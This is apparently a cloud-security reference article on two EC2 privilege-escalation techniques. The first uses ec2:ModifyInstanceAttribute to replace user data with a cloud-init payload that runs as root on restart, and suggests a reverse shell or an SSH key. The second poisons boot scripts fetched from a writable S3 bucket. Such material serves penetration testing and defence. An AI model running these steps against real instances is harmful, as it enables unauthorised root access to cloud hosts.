 ```yaml
---
author_name: Nick Frichette
title: EC2 Privilege Escalation Through User Data
description: How to escalate privileges on an EC2 instance by abusing user data.
---
```


## ec2:ModifyInstanceAttribute

<div class="grid cards" markdown>
-   :material-shield-lock:{ .lg .middle } __Required IAM Permissions__

    ---

    - [ec2:ModifyInstanceAttribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html)

-   :material-shield-plus:{ .lg .middle } __Recommended but not Required IAM Permissions__

    ---

    - [ec2:StartInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html)
    - [ec2:DescribeInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html)
    - [ec2:StopInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html)
</div>
<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [aws_pwn:elevation](https://github.com/dagrz/aws_pwn/blob/master/elevation/bouncy_bouncy_cloudy_cloud.py) by [Daniel Grzelak](https://twitter.com/dagrz)
</div>

If an adversary has access to the modify-instance attribute permission they can leverage it to escalate to root/System on an EC2 instance.

Usually, user data scripts are only run the first time the instance is started, however this can be changed using [cloud-init](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/) to run every time the instance restarts.

To do this, first create a file in the following format.

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here**
--//
```

Modify the ```commands here``` section to do whatever action you want. Setting a reverse shell, adding an ssh key to the default user, etc. are all good options.

Once you've done that, convert the file to base64. Linux can do this with the following command.

```base64 file.txt > file.b64.txt```

Windows can do this with the following command.

```certutil -encode file.txt tmp.b64 && findstr /v /c:- tmp.b64 > file.b64.txt```

Now that you've base64 encoded your payload, you will leverage the [ec2:ModifyInstanceAttribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html) API call to change the user data of the target instance. 

!!! Note 
    The instance will need to be stopped to modify its user data. You'll either have to stop it yourself, or wait for something else to stop it.

```
aws ec2 modify-instance-attribute \
--instance-id=xxx \
--attribute userData \
--value file://file.b64.txt
```

With that change made, simply start the instance again and your command will be executed with root/System.

## Leverage scripts in S3

A common pattern when using EC2 is to define a [user data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html) script to be run when an instance is first started or after a reboot. These scripts are typically used to install software, download and set a config, etc. Oftentimes the scripts and packages are pulled from S3 and this introduces an opportunity for a developer/ops person to make a mistake.

If the IAM role is too permissive and allows the role to write to that location, an adversary can leverage this for privilege escalation. Additionally, if there is any other kind of misconfiguration on the bucket itself, or another role which has access gets compromised, an adversary can take advantage of this as well.

Take the following user data script:

```
#!/bin/bash
aws s3 cp s3://example-boot-bucket/start_script.sh /root/start_script.sh
chmod +x /root/start_script.sh
/root/start_script.sh
```

On first launch, the EC2 instance will pull the start_script from S3 and will run it. If an adversary can write to that location, they can escalate privileges or gain control of the EC2 instance.

!!! Note
    In addition to new instances being spun up or after a reboot, poisoning the scripts/applications can also effect EC2 instances in an [Auto Scaling Group](https://docs.aws.amazon.com/autoscaling/ec2/userguide/AutoScalingGroup.html).
